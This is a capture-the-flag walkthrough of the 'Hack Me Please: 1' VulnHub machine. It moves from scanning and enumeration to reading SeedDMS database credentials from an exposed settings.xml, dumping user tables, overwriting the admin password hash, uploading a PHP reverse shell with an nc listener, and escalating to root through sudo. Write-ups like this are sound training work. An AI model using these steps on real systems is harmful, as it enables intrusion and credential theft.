

# Hack Me Please: 1
https://www.vulnhub.com/entry/hack-me-please-1,731/

## Discovery

### Tool used: netdiscover
<br>

```
sudo netdiscover

13 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 780              
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.146.1   00:50:56:c0:00:01      6     360  VMware Inc.                 
 192.168.146.128 00:0c:29:30:2f:41      6     360  VMware Inc.                 
 192.168.146.254 00:50:56:e9:2a:4c      1      60  VMware Inc.   
```

## Port scan

### Tool used: nmap
<br>

```
sudo nmap -A -T4 -p- hmp

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 03:10 CDT
Nmap scan report for hmp (192.168.146.128)
Host is up (0.00037s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to the land of pwnland
|_http-server-header: Apache/2.4.41 (Ubuntu)
3306/tcp  open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.25-0ubuntu0.20.04.1
|   Thread ID: 38
|   Capabilities flags: 65535
|   Some Capabilities: DontAllowDatabaseTableColumn, SwitchToSSLAfterHandshake, Speaks41ProtocolOld, IgnoreSigpipes, InteractiveClient, LongColumnFlag, Speaks41ProtocolNew, SupportsTransactions, Support41Auth, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, ODBCClient, LongPassword, FoundRows, SupportsCompression, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Y'%qe\x1B5d0\x01[\x1C\x1B	t\x1A\x17B\x01\x12
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.92%I=7%D=9/2%Time=6311BA7A%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
MAC Address: 00:0C:29:30:2F:41 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.37 ms hmp (192.168.146.128)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 194.71 seconds
```

## HTTP & SQL enumeration

### Tools/method used: gobuster, mycli, osint
<br>

Initial *gobuster* enumeratiton did not reveal much. Eventually, I got stuck and had to search for an initial "push" to make some progression. My first hint was to take a look at "/js/main.js":

```js
jQuery(document).ready(function($) {

	'use strict';

        $(window).load(function() { // 
            $(".seq-preloader").fadeOut(); // will first fade out the loading animation
            $(".sequence").delay(500).fadeOut("slow"); // will fade out the white DIV that covers the website.
        })
      
        
        $(function() {
  
        function showSlide(n) {
            // n is relative position from current slide
          
            // unbind event listener to prevent retriggering
            $body.unbind("mousewheel");
          
            // increment slide number by n and keep within boundaries
            currSlide = Math.min(Math.max(0, currSlide + n), $slide.length-1);
            
            var displacment = window.innerWidth*currSlide;
            // translate slides div across to appropriate slide
            $slides.css('transform', 'translateX(-' + displacment + 'px)');
            // delay before rebinding event to prevent retriggering
            setTimeout(bind, 700);
            
            // change active class on link
            $('nav a.active').removeClass('active');
            $($('a')[currSlide]).addClass('active');
            
        }
      
        function bind() {
             $body.bind('false', mouseEvent);
          }
      
        function mouseEvent(e, delta) {
            // On down scroll, show next slide otherwise show prev slide
            showSlide(delta >= 0 ? -1 : 1);
            e.preventDefault();
        }
        
        $('nav a, .main-btn a').click(function(e) {
            // When link clicked, find slide it points to
            var newslide = parseInt($(this).attr('href')[1]);
            // find how far it is from current slide
            var diff = newslide - currSlide - 1;
            showSlide(diff); // show that slide
            e.preventDefault();
        });
      
        $(window).resize(function(){
          // Keep current slide to left of window on resize
          var displacment = window.innerWidth*currSlide;
          $slides.css('transform', 'translateX(-'+displacment+'px)');
        });
        
        // cache
        var $body = $('body');
        var currSlide = 0;
        var $slides = $('.slides');
        var $slide = $('.slide');
      
        // give active class to first link
        //make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
        $($('nav a')[0]).addClass('active');
        
        // add event listener for mousescroll
        $body.bind('false', mouseEvent);
    })        


        $('#form-submit .date').datepicker({
        });


        $(window).on("scroll", function() {
            if($(window).scrollTop() > 100) {
                $(".header").addClass("active");
            } else {
                //remove the background property so it comes transparent again (defined in your css)
               $(".header").removeClass("active");
            }
        });


});

```

Towards the bottom of the script, we find a comment mentioning another directory:<br><br>

```js
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

Visiting this URL gives us a login page:<br><br>



So... we go back to *gobuster* and try again with "seeddms51x/...":<br><br>

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://hmp/seeddms51x/seeddms-5.1.22

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hmp/seeddms51x/seeddms-5.1.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/04 02:52:32 Starting gobuster in directory enumeration mode
===============================================================
/doc                  (Status: 301) [Size: 318] [--> http://hmp/seeddms51x/seeddms-5.1.22/doc/]
/out                  (Status: 301) [Size: 318] [--> http://hmp/seeddms51x/seeddms-5.1.22/out/]
/install              (Status: 301) [Size: 322] [--> http://hmp/seeddms51x/seeddms-5.1.22/install/]
/languages            (Status: 301) [Size: 324] [--> http://hmp/seeddms51x/seeddms-5.1.22/languages/]
/styles               (Status: 301) [Size: 321] [--> http://hmp/seeddms51x/seeddms-5.1.22/styles/]   
/inc                  (Status: 301) [Size: 318] [--> http://hmp/seeddms51x/seeddms-5.1.22/inc/]      
/utils                (Status: 301) [Size: 320] [--> http://hmp/seeddms51x/seeddms-5.1.22/utils/]    
/views                (Status: 301) [Size: 320] [--> http://hmp/seeddms51x/seeddms-5.1.22/views/]    
/op                   (Status: 301) [Size: 317] [--> http://hmp/seeddms51x/seeddms-5.1.22/op/]       
/webdav               (Status: 301) [Size: 321] [--> http://hmp/seeddms51x/seeddms-5.1.22/webdav/]   
/controllers          (Status: 301) [Size: 326] [--> http://hmp/seeddms51x/seeddms-5.1.22/controllers/]
                                                                                                       
===============================================================
2022/09/04 02:52:48 Finished
===============================================================
```

We got 403 (Forbidden) errors for everything except "/install" and "/webdav".<br><br>


At this point, I was stuck again. My next "help from others" moment was to look at the source code for SeedDMS to get an idea of how it is structured. Inside "/conf", there is a ".htaccess" file indicating the presence of a settings.xml file.<br><br>


Trying "/seeddms51x/seeddms-5.1.22/conf/settings" did not work, but "/seeddms51x/conf/settings.xml" did!<br><br>

```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<configuration>
<site>
<!--  siteName: Name of site used in the page titles. Default: SeedDMS
       - footNote: Message to display at the bottom of every page
       - printDisclaimer: if true the disclaimer message the lang.inc files will be print on the bottom of the page
       - language: default language (name of a subfolder in folder "languages")
       - theme: default style (name of a subfolder in folder "styles")
     -->
<display siteName="SeedDMS" footNote="SeedDMS free document management system - www.seeddms.org" printDisclaimer="true" language="en_GB" theme="bootstrap" previewWidthList="40" previewWidthDetail="100" availablelanguages="" showFullPreview="false" convertToPdf="false" previewWidthMenuList="40" previewWidthDropFolderList="100" maxItemsPerPage="0" incItemsPerPage="0" onePageMode="false" dateformat="" datetimeformat="" overrideTheme="false"> </display>
<!--  strictFormCheck: Strict form checking. If set to true, then all fields in the form will be checked for a value. If set to false, then (most) comments and keyword fields become optional. Comments are always required when submitting a review or overriding document status.
       - viewOnlineFileTypes: files with one of the following endings can be viewed online (USE ONLY LOWER CASE CHARACTERS)
       - enableConverting: enable/disable converting of files
       - enableEmail: enable/disable automatic email notification
       - enableUsersView: enable/disable group and user view for all users
       - enableFullSearch: false to don't use fulltext search
       - enableLanguageSelector: false to don't show the language selector after login
       - enableClipboard: false to hide the clipboard
       - enableFolderTree: false to don't show the folder tree
       - expandFolderTree: 0 to start with tree hidden
       -                   1 to start with tree shown and first level expanded
       -                   2 to start with tree shown fully expanded     
       - stopWordsFile: path to stop word file for indexer
       - sortUsersInList: how to sort users in lists ('fullname' or '' (default))
     -->
<edition strictFormCheck="false" viewOnlineFileTypes=".txt;.text;.html;.htm;.xml;.pdf;.gif;.png;.jpg;.jpeg" enableConverting="true" enableEmail="true" enableUsersView="true" enableFullSearch="true" enableClipboard="false" enableFolderTree="true" expandFolderTree="1" enableLanguageSelector="true" stopWordsFile="" sortUsersInList="" enableDropUpload="false" enableRecursiveCount="false" maxRecursiveCount="0" enableThemeSelector="false" fullSearchEngine="sqlitefts" sortFoldersDefault="u" editOnlineFileTypes="" enableMenuTasks="false" enableHelp="false" defaultSearchMethod="database" libraryFolder="0" maxSizeForFullText="0" showSingleSearchHit="false" enableSessionList="false" enableDropFolderList="false" enableMultiUpload="false" defaultDocPosition="end" noDocumentFormFields="" inlineEditing="false"> </edition>
<!--  enableCalendar: enable/disable calendar
       - calendarDefaultView: calendar default view ("w" for week,"m" for month,"y" for year)
       - firstDayOfWeek: first day of the week (0=sunday, 6=saturday)
     -->
<calendar enableCalendar="true" calendarDefaultView="y" firstDayOfWeek="0"> </calendar>
<webdav enableWebdavReplaceDoc="false"/>
</site>
<system>
<!--  rootDir: Path to where SeedDMS is located
       - httpRoot: The relative path in the URL, after the domain part. Do not include the
       -           http:// prefix or the web host name. e.g. If the full URL is
	     -           http://www.example.com/seeddms/, set $_httpRoot = "/seeddms/".
	     -           If the URL is http://www.example.com/, set $_httpRoot = "/".
       - contentDir: Where the uploaded files are stored (best to choose a directory that
       -             is not accessible through your web-server)
       - stagingDir: Where partial file uploads are saved
       - luceneDir: Where the lucene fulltext index iѕ saved
       - logFileEnable: set false to disable log system
       - logFileRotation: the log file rotation (h=hourly, d=daily, m=monthly)
       - enableLargeFileUpload: support for jumploader
       - partitionsize: size of chunk uploaded by jumploader
       - dropFolderDir: where files for document upload are located
       - cacheDir: where the preview images are saved
       - backupDir: where the backups are saved
     -->
<server rootDir="/var/www/html/seeddms51x/seeddms-5.1.22/" httpRoot="/seeddms51x/seeddms-5.1.22/" contentDir="/var/www/html/seeddms51x/data/" stagingDir="/var/www/html/seeddms51x/data/" luceneDir="/var/www/html/seeddms51x/data/lucene/" logFileEnable="true" logFileRotation="d" enableLargeFileUpload="false" partitionSize="2000000" cacheDir="/var/www/html/seeddms51x/data/cache/" dropFolderDir="" backupDir="/var/www/html/seeddms51x/data/backup/" repositoryUrl="" maxUploadSize="" enableXsendfile="false" proxyUrl="" proxyUser="" proxyPassword=""> </server>
<!--  enableGuestLogin: If you want anybody to login as guest, set the following line to true
       -                   note: guest login should be used only in a trusted environment
			 - enablePasswordForgotten: Allow users to reset their password
       - restricted: Restricted access: only allow users to log in if they have an entry in the local database (irrespective of successful authentication with LDAP).
       - enableUserImage: enable users images
       - disableSelfEdit: if true user cannot edit his own profile
			 - passwordStrength: minimum strength of password, set to 0 to disable
			 - passwordExpiration: number of days after password expires
			 - passwordHistory: number of remembered passwords
			 - passwordStrengthAlgorithm: algorithm used to calculate password strenght (simple or advanced)
			 - encryptionKey: arbitrary string used for creating identifiers
     -->
<authentication enableGuestLogin="false" enablePasswordForgotten="false" restricted="true" enableUserImage="false" disableSelfEdit="false" passwordStrength="0" passwordStrengthAlgorithm="simple" passwordExpiration="10" passwordHistory="0" loginFailure="0" autoLoginUser="0" quota="0" undelUserIds="" encryptionKey="d94dd8f4eb694c32c5c89a49405efaed" cookieLifetime="0" enableGuestAutoLogin="false" defaultAccessDocs="0">
<connectors>
<!--  ***** CONNECTOR LDAP  *****
           - enable: enable/disable connector
           - type: type of connector ldap / AD
           - host: hostname of the authentification server
           -       URIs are supported, e.g.: ldaps://ldap.host.com
           - port: port of the authentification server
           - baseDN: top level of the LDAP directory tree
         -->
<connector enable="false" type="ldap" host="ldaps://ldap.host.com" port="389" baseDN="" bindDN="" bindPw=""> </connector>
<!--  ***** CONNECTOR Microsoft Active Directory  *****
           - enable: enable/disable connector
           - type: type of connector ldap / AD
           - host: hostname of the authentification server
           - port: port of the authentification server
           - baseDN: top level of the LDAP directory tree
           - accountDomainName: sample: example.com
         -->
<connector enable="false" type="AD" host="ldap.example.com" port="389" baseDN="" accountDomainName="example.com" bindDN="" bindPw=""> </connector>
</connectors>
</authentication>
<!-- 
       - dbDriver: DB-Driver used by adodb (see adodb-readme)
       - dbHostname: DB-Server
       - dbDatabase: database where the tables for seeddms are stored (optional - see adodb-readme)
       - dbUser: username for database-access
       - dbPass: password for database-access
     -->
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false"> </database>
<!--  smtpServer: SMTP Server hostname
       - smtpPort: SMTP Server port
       - smtpSendFrom: Send from
     -->
<smtp smtpServer="localhost" smtpPort="25" smtpSendFrom="seeddms@localhost" smtpUser="" smtpPassword=""/>
</system>
<advanced>
<!--  siteDefaultPage: Default page on login. Defaults to out/out.ViewFolder.php
       - rootFolderID: ID of root-folder (mostly no need to change)
       - titleDisplayHack: Workaround for page titles that go over more than 2 lines.
     -->
<display siteDefaultPage="" rootFolderID="1" titleDisplayHack="true" showMissingTranslations="false" useHomeAsRootFolder="false"> </display>
<!--  guestID: ID of guest-user used when logged in as guest (mostly no need to change)
       - adminIP: if enabled admin can login only by specified IP addres, leave empty to avoid the control
       -          NOTE: works only with local autentication (no LDAP)
     -->
<authentication guestID="2" adminIP="" apiKey="" apiUserId="0" apiOrigin=""> </authentication>
<!--  enableAdminRevApp: false to don't list administrator as reviewer/approver
       - versioningFileName: the name of the versioning info file created by the backup tool
       - workflowMode: 'traditional' or 'advanced'
       - enableVersionDeletion: allow to delete versions after approval
       - enableVersionModification: allow to modify versions after approval
       - enableDuplicateDocNames: allow duplicate names in a folder
     -->
<edition enableAdminRevApp="false" versioningFileName="versioning_info.txt" workflowMode="traditional" enableVersionDeletion="true" enableVersionModification="true" enableDuplicateDocNames="true" enableOwnerRevApp="false" enableSelfRevApp="false" presetExpirationDate="" overrideMimeType="false" initialDocumentStatus="0" enableAcknowledgeWorkflow="" enableRevisionWorkflow="" advancedAcl="false" enableUpdateRevApp="false" removeFromDropFolder="false" allowReviewerOnly="false" enableDuplicateSubFolderNames="false"> </edition>
<!--  enableNotificationAppRev: true to send notifation if a user is added as a reviewer or approver
		 -->
<notification enableNotificationAppRev="true" enableOwnerNotification="false" enableNotificationWorkflow="false"> </notification>
<!--  coreDir: Path to SeedDMS_Core (optional)
       - luceneClassDir: Path to SeedDMS_Lucene (optional)
       - contentOffsetDir: To work around limitations in the underlying file system, a new 
       -                   directory structure has been devised that exists within the content 
       -                   directory ($_contentDir). This requires a base directory from which 
       -                   to begin. Usually leave this to the default setting, 1048576, but can 
       -                   be any number or string that does not already exist within $_contentDir.	
       - maxDirID: Maximum number of sub-directories per parent directory. Default: 0, use 31998 (maximum number of dirs in ext3) for a multi level content directory.
       - updateNotifyTime: users are notified about document-changes that took place within the last "updateNotifyTime" seconds
       - extraPath: Path to addtional software. This is the directory containing additional software like the adodb directory, or the pear Log package. This path will be added to the php include path
     -->
<server coreDir="" luceneClassDir="" contentOffsetDir="1048576" maxDirID="0" updateNotifyTime="86400" extraPath="/var/www/html/seeddms51x/pear/" maxExecutionTime="30" cmdTimeout="10" enableDebugMode="false"> </server>
<converters target="fulltext">
<converter mimeType="application/pdf">pdftotext -nopgbrk %s - | sed -e 's/ [a-zA-Z0-9.]\{1\} / /g' -e 's/[0-9.]//g'</converter>
<converter mimeType="application/msword">catdoc %s</converter>
<converter mimeType="application/vnd.ms-excel">ssconvert -T Gnumeric_stf:stf_csv -S %s fd://1</converter>
<converter mimeType="audio/mp3">id3 -l -R %s | egrep '(Title|Artist|Album)' | sed 's/^[^:]*: //g'</converter>
<converter mimeType="audio/mpeg">id3 -l -R %s | egrep '(Title|Artist|Album)' | sed 's/^[^:]*: //g'</converter>
<converter mimeType="text/plain">cat %s</converter>
</converters>
</advanced>
<extensions>
<extension name="example" disable="true">
<parameter name="__disable__">1</parameter>
</extension>
</extensions>
</configuration>
```

..and inside are some credentials for us:<br><br>

```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false"> </database>
```

From here, we start poking around the database to see what we can find:<br><br>

```sql
mycli -h hmp -u seeddms

Password: 
MySQL 8.0.25
mycli 1.25.0
Home: http://mycli.net
Bug tracker: https://github.com/dbcli/mycli/issues
Thanks to the contributor - Abirami P

MySQL seeddms@hmp:(none)> \l

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+
Time: 0.007s

MySQL seeddms@hmp:(none)> use seeddms

You are now connected to database "seeddms" as user "seeddms"
Time: 0.001s

MySQL seeddms@hmp:seeddms> \dt
+------------------------------+
| Tables_in_seeddms            |
+------------------------------+
| tblACLs                      |
| tblAttributeDefinitions      |
| tblCategory                  |
| tblDocumentApproveLog        |
| tblDocumentApprovers         |
| tblDocumentAttributes        |
| tblDocumentCategory          |
| tblDocumentContent           |
| tblDocumentContentAttributes |
| tblDocumentFiles             |
| tblDocumentLinks             |
| tblDocumentLocks             |
| tblDocumentReviewLog         |
| tblDocumentReviewers         |
| tblDocumentStatus            |
| tblDocumentStatusLog         |
| tblDocuments                 |
| tblEvents                    |
| tblFolderAttributes          |
| tblFolders                   |
| tblGroupMembers              |
| tblGroups                    |
| tblKeywordCategories         |
| tblKeywords                  |
| tblMandatoryApprovers        |
| tblMandatoryReviewers        |
| tblNotify                    |
| tblSessions                  |
| tblUserImages                |
| tblUserPasswordHistory       |
| tblUserPasswordRequest       |
| tblUsers                     |
| tblVersion                   |
| tblWorkflowActions           |
| tblWorkflowDocumentContent   |
| tblWorkflowLog               |
| tblWorkflowMandatoryWorkflow |
| tblWorkflowStates            |
| tblWorkflowTransitionGroups  |
| tblWorkflowTransitionUsers   |
| tblWorkflowTransitions       |
| tblWorkflows                 |
| users                        |
+------------------------------+

Time: 0.009s

MySQL seeddms@hmp:seeddms> select * from users

+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
| 1           | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+

1 row in set

MySQL seeddms@hmp:seeddms> select * from `tblUsers`

+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
| id | login | pwd                              | fullName      | email              | language | theme | comment | role | hidden | pwdExpiration       | loginfailures | disabled | quota | homefolder |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
| 1  | admin | f9ef2c539bad8a6d2f3432b6d49ab51a | Administrator | address@server.com | en_GB    |       |         | 1    | 0      | 2021-07-13 00:12:25 | 0             | 0        | 0     | <null>     |
| 2  | guest | <null>                           | Guest User    | <null>             |          |       |         | 2    | 0      | <null>              | 0             | 0        | 0     | <null>     |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+

2 rows in set
```

At this point, we have some credentials for a user (but no login), and a login for "admin". We change the admin's password to "admin" (MD5):<br><br>

```sql
MySQL seeddms@hmp:seeddms> update `tblUsers` set pwd = '21232f297a57a5a743894a0e4a801fc3'

You're about to run a destructive command.
Do you want to proceed? (y/n): y
Your call!
Query OK, 2 rows affected
Time: 0.004s

```

Now we can login to the the site!<br><br>


Since this is a document management system, our first thing to try is getting a PHP shell going. After setting up our listener (nc -lvnp 1234) and changing the PHP file to reflect our IP address:<br><br>


At first, it seems that it does not upload, but if go back to the main page, you can see your file uploaded. Exploit Database shows an exploit for older versions (https://www.exploit-db.com/exploits/47022) that may be of use:<br><br>


The ID of our file is 7, so we browse to http://hmp/seeddms51x/data/1048576/7/1.php and get our shell!<br><br>


Now that we are in, we start poking around the system. We see a familiar username - saket - so maybe the credentials we obtained from the database are what we need. We switch to user *saket* and see what privileges they have:

```
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
saket:x:1000:1000:Ubuntu_CTF,,,:/home/saket:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false
```

## Privilege escalation
<br>

```
$ su saket
Password: Saket@#$1337

id

uid=1000(saket) gid=1000(saket) groups=1000(saket),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)

sudo -S -l

[sudo] password for saket: Saket@#$1337
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

As it turns out, *saket* can run **everything** with sudo, so our job is pretty much done.<br><br>

```
sudo -i

id

uid=0(root) gid=0(root) groups=0(root)
```